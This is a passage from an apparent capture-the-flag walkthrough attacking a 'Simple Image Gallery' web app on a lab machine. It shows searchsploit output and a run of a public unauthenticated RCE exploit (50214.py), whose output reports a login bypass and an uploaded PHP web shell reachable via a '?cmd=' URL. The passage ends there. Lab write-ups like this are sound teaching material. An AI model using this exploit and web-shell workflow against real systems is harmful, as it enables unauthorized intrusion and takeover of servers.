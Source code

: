 3. What's the hash password of the admin user?

Not sure if it's gonna be useful, but we can see this in the page source code:

```html
<!--  <p class="mb-1">
        <a href="forgot-password.html">I forgot my password</a>
      </p> 
-->
```

Page does not seems on the server though.

Let's search for an exploit:

```bash
searchsploit "Simple Image Gallery"      
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
 Exploit Title                                                                                                                                                                                            |  Path
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
Joomla Plugin Simple Image Gallery Extended (SIGE) 3.5.3 - Multiple Vulnerabilities                                                                                                                       | php/webapps/49064.txt
Joomla! Component Kubik-Rubik Simple Image Gallery Extended (SIGE) 3.2.3 - Cross-Site Scripting                                                                                                           | php/webapps/44104.txt
Simple Image Gallery 1.0 - Remote Code Execution (RCE) (Unauthenticated)                                                                                                                                  | php/webapps/50214.py
Simple Image Gallery System 1.0 - 'id' SQL Injection                                                                                                                                                      | php/webapps/50198.txt
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
Shellcodes: No Results
```

I'm not sure if it's version 1.0, couldn't find any evidences, but let's try the RCE exploit:

```bash
python 50214.py

TARGET = http://10.10.209.207/gallery/
Login Bypass
shell name TagovdensfxevzbrjyaLetta

protecting user

User ID : 1
Firsname : Adminstrator
Lasname : Admin
Username : admin

shell uploading
- OK -
Shell URL : http://10.10.209.207/gallery/uploads/1713145560_TagovdensfxevzbrjyaLetta.php?cmd=whoami
```

